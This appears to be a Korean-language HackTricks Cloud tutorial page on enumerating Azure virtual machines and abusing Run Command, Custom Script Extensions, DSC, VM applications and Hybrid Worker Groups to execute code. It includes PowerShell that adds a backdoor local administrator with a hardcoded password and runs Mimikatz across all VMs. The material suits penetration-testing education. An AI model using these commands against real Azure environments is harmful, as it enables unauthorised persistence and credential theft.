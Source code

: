 # Az - 가상 머신 및 네트워크

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 기본 정보

[문서에서:] (https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 가상 머신은 Azure가 제공하는 여러 유형의 [온디맨드, 확장 가능한 컴퓨팅 리소스](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) 중 하나입니다. 일반적으로, 다른 선택지보다 컴퓨팅 환경에 대한 더 많은 제어가 필요할 때 가상 머신을 선택합니다. 이 문서는 가상 머신을 생성하기 전에 고려해야 할 사항, 생성 방법 및 관리 방법에 대한 정보를 제공합니다.

## Azure 네트워크 정보

Azure 네트워크는 **다양한 엔티티와 구성 방법을 포함합니다.** 다양한 Azure 네트워크 엔티티에 대한 간략한 **설명,** **예제** 및 **열거** 명령을 찾을 수 있습니다:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**은 Azure 포털을 통해 SSL을 통해 안전하고 완전 관리되는 RDP(원격 데스크톱 프로토콜) 및 SSH(보안 셸) 액세스 솔루션을 제공합니다. Azure 가상 네트워크 내에 통합되어 있어 RDP 및 SSH 연결을 사용하여 개인 IP로 VM에 연결할 수 있으며, 공용 IP의 필요성을 피할 수 있습니다. 이는 공용 IP 할당 및 VM 액세스를 위한 NSG 규칙 구성을 포함하는 전통적인 방법보다 더 안전하고 편리한 대안이 됩니다. 개발자와 IT 직원은 웹 브라우저를 사용하여 Azure 포털에서 VM에 안전하게 액세스할 수 있어 개발 및 테스트 환경을 위한 프로세스를 간소화합니다.

구독 내 모든 Azure Bastion 호스트를 나열하려면 다음 명령을 사용할 수 있습니다:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM 열거
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM에서 명령 실행하기**

### **VM에서 AAD 로그인**

AzureAD를 통해 인증된 사용자에게 접근을 허용하는 것이 가능합니다. 예를 들어 **linux VM**에 접근하려고 할 때: `ssh username@azure-corp.com@1.1.1.1` (로그인 시 사용한 azurecorp와 함께 **이메일을 사용하는 것이 중요합니다**) 다음과 같은 오류가 발생할 수 있습니다:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

그냥 **이 지침을 따르세요** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)로 가서 코드를 입력하고, 이메일과 비밀번호를 자격 증명으로 사용하면 SSH를 통해 연결할 수 있습니다(해당 사용자가 그렇게 할 수 있는 충분한 권한이 있는 경우: `Virtual Machine Administrator Login` 또는 `Virtual Machine User Login` 역할).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **사용자 지정 스크립트 확장 실행**

Azure 가상 머신(VM) 확장은 **Azure VM**에서 배포 후 구성 및 자동화 **작업**을 제공하는 **작은 애플리케이션**입니다. 예를 들어, 가상 머신에 소프트웨어 설치, 바이러스 백신 보호 또는 내부에서 스크립트를 실행할 수 있는 기능이 필요한 경우 VM 확장을 사용할 수 있습니다.

따라서 이를 작성할 수 있는 권한이 있다면, 임의의 코드를 실행할 수 있습니다:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC)는 코드를 통해 호스트를 설정하는 데 사용되는 Ansible과 유사한 PowerShell 도구입니다. DSC는 Azure와 통합되어 특정 구성 파일을 업로드할 수 있습니다. 이러한 파일은 엄격한 구문을 준수해야 합니다. 특히, Azure의 DSC 확장은 특정 형식 기준을 충족하는 파일에서 명령을 실행할 수 있으며, DSC 표준에 맞지 않는 구문일지라도 실행할 수 있습니다.

이러한 명령의 실행은 Az PowerShell의 [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 함수에 의해 용이해집니다. 요구 사항에는 정의된 함수가 포함된 **.PS1** 파일이 필요하며, 이 파일은 **.zip** 파일로 압축되어야 합니다. 구문이 DSC에 정확하지 않더라도 코드는 여전히 실행됩니다. 그러나 확장은 실행 상태를 "실패"로 표시하며, 실패 메시지로 인해 명령의 출력은 표시되지 않습니다.

### VM Application Definitions

VM Application Definitions는 버전이 지정된 애플리케이션을 Azure VM에 반복적으로 배포할 수 있게 해줍니다. 이 리소스는 VM 간의 애플리케이션 배포 및 업데이트를 지원합니다. 이를 설정하기 위해서는 Az PowerShell에서 **`New-AzGalleryApplication`** 및 **`New-AzGalleryApplicationVersion`**과 같은 명령을 포함한 여러 단계가 필요합니다.

이 방법을 통해 애플리케이션이나 명령을 실행하는 것은 VM에 애플리케이션이 적용될 때 자동으로 설치되는 **"VMAppExtension"**을 포함합니다. 이 확장은 지정된 URI에서 파일을 가져오고, 애플리케이션과 동일한 이름으로 확장자 없이 저장합니다. 파일을 올바르게 실행하려면 REST API 호출의 "ManageActions" 필드를 구성하여 파일의 이름을 적절한 확장자로 변경해야 합니다. 이 방법의 설정이 완료되면 제공된 그림에 표시된 구조와 유사하게 됩니다.

그러나 이 실행 방법은 상대적으로 느리며, 애플리케이션이나 명령을 실행하는 데 약 3-4분이 소요됩니다. 이 과정과 관련된 파일은 특정 디렉터리에 저장됩니다 (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` 애플리케이션 복사본 및 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` 실행 상태).

두 기술 모두 Azure 환경에서 명령을 실행하고 애플리케이션을 배포하는 독특한 방법을 제공하며, 각각 고유한 요구 사항, 단계 및 고려 사항이 있습니다.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker)는 Azure의 기능으로, Automation Account에서 구성된 Runbook을 지정된 HWG의 일부인 Azure Virtual Machine (VM)에서 실행할 수 있게 해줍니다. 이 실행은 VM에 설치된 확장을 통해 용이해지며, Runbook 코드를 VM에 배포합니다. 이 과정의 중요한 점은 실제 자격 증명이 실행에 영향을 미치지 않는다는 것입니다. 코드가 **SYSTEM** 또는 root로서 권한 상승된 상태로 실행되기 때문입니다.

Windows 10 VM을 사용하는 경우 중요한 세부 사항은 Runbook에 대해 PowerShell 버전을 지정해야 한다는 것입니다. PowerShell Version 5.1로 실행되도록 설정해야 하며, 7.1로 설정하면 실패하게 됩니다. 이는 PowerShell 7.1이 이러한 VM에 기본적으로 설치되어 있지 않기 때문입니다.

Azure의 이 기능은 하이브리드 환경에서 작업을 자동화하고 관리하는 강력한 방법을 제공하며, Azure VM에서 작업을 중앙 집중식으로 관리하고 실행할 수 있게 해줍니다.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
